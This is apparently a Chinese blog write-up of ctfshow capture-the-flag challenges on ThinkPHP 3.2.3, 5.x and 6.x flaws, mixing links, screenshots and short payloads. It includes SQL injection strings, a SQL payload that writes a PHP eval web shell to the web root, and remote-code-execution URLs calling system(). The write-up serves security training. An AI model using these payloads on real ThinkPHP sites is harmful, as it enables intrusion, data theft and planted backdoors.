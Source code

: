 ﻿---
title: ctfshow web入门(thinkphp专题)
categories: ctfshow
---

# 569 URL模式
![](https://img-blog.csdnimg.cn/42abd33294b94f0fbd71e7cad82f724b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
查阅手册：[URL模式 · ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1697)
```
http://serverName/index.php/模块/控制器/操作
```

<!--more-->
payload: 
```
普通模式：/?m=Admin&c=Login&a=ctfshowLogin
Pathinfo模式：/index.php/Admin/Login/ctfshowLogin
兼容模式：/?s=/Admin/Login/ctfshowLogin
```

# 570 路由
发现路由：

![](https://img-blog.csdnimg.cn/fee6480bb0fb4021b66f3d2fe546576c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

根据手册：
![](https://img-blog.csdnimg.cn/9d254a053288459f977a73f00b92fe60.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

直接构造：这里直接执行不可以，执行两次

![](https://img-blog.csdnimg.cn/81f723f20b4b44018b75c9236241a167.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

# 571 黑客建立了控制器后门
[Thinkphp3.2.3安全开发须知](https://www.cnblogs.com/devi1/p/13486655.html)

[show 方法参数可控](http://www.yongsheng.site/2022/01/09/ThinkPHP%20show%E6%96%B9%E6%B3%95%E5%8F%82%E6%95%B0%E5%8F%AF%E6%8E%A7%20%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)

# 572 日志路径
Thinkphp3 日志路径

```
/Application/Runtime/Logs/Home/21_04_15.log
```

# 573-574 v3.2.3 find sql注入
```
/?id[where]=1 and updatexml(1,concat(0x7e,right((select group_concat(flag4s) from flags),22),0x7e),1)

?id=-1) union select 1,group_concat(flag4s),3,4 from flags%23
```

# web575
[ThinkPHP 3.2.3 反序列化&sql注入漏洞分析](http://www.yongsheng.site/2021/08/30/ThinkPHP3.2.3%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

先利用恶意数据库读取题目中使用的数据库信息

![](https://img-blog.csdnimg.cn/e8244c68d5d04de782a3301db3eb2902.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

修改exp

```
"table" => "ctfshow_users where 1=2;select \"<?php eval(\$_POST[0]);?>\" into outfile \"/var/www/html/1.php\"#",
```

# 576 
[comment 注释注入写shell](http://www.yongsheng.site/2022/01/09/ThinkPHP%20v3.2%20comment%20%E6%B3%A8%E9%87%8A%E6%B3%A8%E5%85%A5%20%E5%86%99shell/)

# Web577
Thinkphp3.2.3 exp注入
```
?id[0]=exp&id[1]==-1 union select 1,group_concat(flag4s),3,4 from flags
```

# web578
变量覆盖导致rce
```
public function index($name='',$from='ctfshow'){
$this->assign($name,$from);
$this->display('index');
}
```
跟那个ThinkPHP 3.2.x RCE 差不多

分析这个`assign两个参数可控`

![](https://img-blog.csdnimg.cn/3304d7962e7e4ca290f8a1dbc2f3b4d8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

进入display再进入fetch方法，题目用的时php模板

![](https://img-blog.csdnimg.cn/8d8741371f6e4d5aa07829ccdc7c6156.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

extract直接覆盖变量$_content

那就在assign有两条路，传入的是字符串或者直接传入数组形式

payload:
```
?name=_content&from=<?php system('cat /fl*');?>
或者
?name[_content]=<?php phpinfo();?>&from=123
```

那个3.2.3rce的是在Think模板下，这道题在分析相较简单


# Web579-610 TP5 rce
开始thinkphp5 rce

payload一大堆

# web606
前几个题找几个payload就行了，到这一道题 input write invokefunction display被过滤，但是`大写`就绕过了

一个新的通杀:
```
/?s=index/\think\view\driver\Think/__call&method=display&params[]=<?php system('whoami'); ?>
```

![](https://img-blog.csdnimg.cn/2af3379b6b45455eb8c473f5d035e298.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

生成shell拼接道$content进行write写入缓存文件

![](https://img-blog.csdnimg.cn/29e1a39a7d734394b73598cb92346bf5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

![](https://img-blog.csdnimg.cn/3fee18bc900f4c2eacee580cd21e7cd8.png#pic_center)

接着去读取，include模板缓存文件

![](https://img-blog.csdnimg.cn/f29cbb2c61d64cd08d79372209f63582.png#pic_center)
![](https://img-blog.csdnimg.cn/bed87652227f4ae88f9901235b4c01cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
# 611 TP 5.1 反序列化
thinkphp 5.1.38反序列化RCE

[ThinkPHP v5.1.x 反序列化 分析](http://www.yongsheng.site/2022/01/04/ThinkPHP%20v5.1.x%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20%E5%88%86%E6%9E%90/)

[安洵杯 | Y0ng的博客](http://www.yongsheng.site/2021/11/29/%E5%AE%89%E6%B4%B5%E6%9D%AF/)

# 612-622 5.1变形
从这道题往后就是 `围绕怎么调用input函数或者param来做文章` ，直接搜索谁调用input，然后进行分析即可

调用 `param` 的：

![](https://img-blog.csdnimg.cn/3b3838c3107a4ab6803c32ecd605b5c9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

```
'var_pjax'         => '',
$this->hook = ['visible'=>[$this,"isPjax"]];
```

![](https://img-blog.csdnimg.cn/5e750a42b16d4bf4ae0feb7b1e30f01e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
```
$this->get = ['y0ng'=>'whoami'];
$this->hook = ['visible'=>[$this,"__get"]];
```

调用 `input` 的：

![](https://img-blog.csdnimg.cn/f40c380fe2bd430d8e0244967d691a7e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
```
$this->hook = ['visible'=>[$this,"request"]];  直接url传参数即可
```

![](https://img-blog.csdnimg.cn/a73882e6f2f14fc888f79cbbe47ce44d.png#pic_center)
```
$this->route = ['y0ng'=>'whoami'];
$this->hook = ['visible'=>[$this,"route"]];
```

![](https://img-blog.csdnimg.cn/c7621f5e06b445128c4e1dd7a8f53385.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

![](https://img-blog.csdnimg.cn/cd802811520740528d9fee55be6998ca.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

# 623-625 TP6 反序列化

有个奇怪的地方，题目显示的是6.0.8 但是应该是打不通的，所以题目版本应该错了，用6.0.3就可以了

[ThinkPHP v6.0.x 反序列化漏洞 分析](http://www.yongsheng.site/2021/11/25/ThinkPHP%206.0.x%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

用6.0.9链子 有两种 一种直接eval 或者 还可以写文件

